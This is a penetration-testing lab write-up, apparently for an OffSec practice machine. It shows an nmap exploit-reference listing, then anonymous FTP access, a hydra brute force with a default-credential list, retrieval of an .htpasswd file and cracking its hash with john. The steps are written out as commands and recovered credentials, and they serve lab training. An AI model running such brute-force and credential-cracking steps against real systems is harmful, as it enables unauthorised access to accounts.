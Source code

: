 ```bash
|       22DCCD26-B68C-5905-BAC2-71D10DE3F123    9.8     https://vulners.com/githubexploit/22DCCD26-B68C-5905-BAC2-71D10DE3F123        *EXPLOIT*
|       2108729F-1E99-54EF-9A4B-47299FD89FF2    9.8     https://vulners.com/githubexploit/2108729F-1E99-54EF-9A4B-47299FD89FF2        *EXPLOIT*
|       1C39E10A-4A38-5228-8334-2A5F8AAB7FC3    9.8     https://vulners.com/githubexploit/1C39E10A-4A38-5228-8334-2A5F8AAB7FC3        *EXPLOIT*
|       1337DAY-ID-37777        9.8     https://vulners.com/zdt/1337DAY-ID-37777        *EXPLOIT*
|       1337DAY-ID-36952        9.8     https://vulners.com/zdt/1337DAY-ID-36952        *EXPLOIT*
|       11813536-2AFF-5EA4-B09F-E9EB340DDD26    9.8     https://vulners.com/githubexploit/11813536-2AFF-5EA4-B09F-E9EB340DDD26        *EXPLOIT*
|       0C47BCF2-EA6F-5613-A6E8-B707D64155DE    9.8     https://vulners.com/githubexploit/0C47BCF2-EA6F-5613-A6E8-B707D64155DE        *EXPLOIT*
|       0AA6A425-25B1-5D2A-ABA1-2933D3E1DC56    9.8     https://vulners.com/githubexploit/0AA6A425-25B1-5D2A-ABA1-2933D3E1DC56        *EXPLOIT*
|       07AA70EA-C34E-5F66-9510-7C265093992A    9.8     https://vulners.com/githubexploit/07AA70EA-C34E-5F66-9510-7C265093992A        *EXPLOIT*
|       PACKETSTORM:164501      0.0     https://vulners.com/packetstorm/PACKETSTORM:164501      *EXPLOIT*
|       PACKETSTORM:164418      0.0     https://vulners.com/packetstorm/PACKETSTORM:164418      *EXPLOIT*
|       EDB-ID:41769    0.0     https://vulners.com/exploitdb/EDB-ID:41769      *EXPLOIT*
|       EDB-ID:41768    0.0     https://vulners.com/exploitdb/EDB-ID:41768      *EXPLOIT*
|       EDB-ID:36352    0.0     https://vulners.com/exploitdb/EDB-ID:36352      *EXPLOIT*
|       EDB-ID:34133    0.0     https://vulners.com/exploitdb/EDB-ID:34133      *EXPLOIT*
|       EDB-ID:31052    0.0     https://vulners.com/exploitdb/EDB-ID:31052      *EXPLOIT*
|       EDB-ID:18442    0.0     https://vulners.com/exploitdb/EDB-ID:18442      *EXPLOIT*
|_      1337DAY-ID-16843        0.0     https://vulners.com/zdt/1337DAY-ID-16843        *EXPLOIT*
3145/tcp open  zftp-admin         zFTPServer admin
3389/tcp open  ssl/ms-wbt-server?
```
---
# Enumeration
## Port 21 - FTP (zFTPServer 6.0)
- Ran `ftp 192.168.171.46` and used username `anonymous`
![[Cybersecurity-Resources/images/Pasted image 20241025194245.png]]
- Change directory to `accounts` and identified three `uac` accounts including `admin` and `Offsec`
![[Cybersecurity-Resources/images/Pasted image 20241025194448.png]]
- Navigated to `/` directory and unsuccessfully attempted to run `get settings.ini`
![[Cybersecurity-Resources/images/Pasted image 20241025194627.png]]
- Exited ftp login, and ran `hydra 192.168.171.46 ftp -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` to brute force other logins - identified credentials `admin:admin` `anonymous:anonymous` `Admin:admin`
![[Cybersecurity-Resources/images/Pasted image 20241025201654.png]]
- Ran `ftp 192.168.171.46` with credentials `admin:admin` and identified three available files
![[Cybersecurity-Resources/images/Pasted image 20241025201910.png]]
- Used `get` to download all three files and inspected individually. 
	- Ran `cat index.php` - identified a quote from Plautus
![[Cybersecurity-Resources/images/Pasted image 20241025202406.png]]
	- Ran `cat .htaccess`
![[Cybersecurity-Resources/images/Pasted image 20241025202537.png]]
	- Ran `cat .htpasswd` - identified password hash for user `offsec:offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0`
![[Cybersecurity-Resources/images/Pasted image 20241025202711.png]]
- Saved `offsec:offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0` as `offsec.hash` and ran `john offsec.hash` to crack password hash - identified credentials `offsec:elite`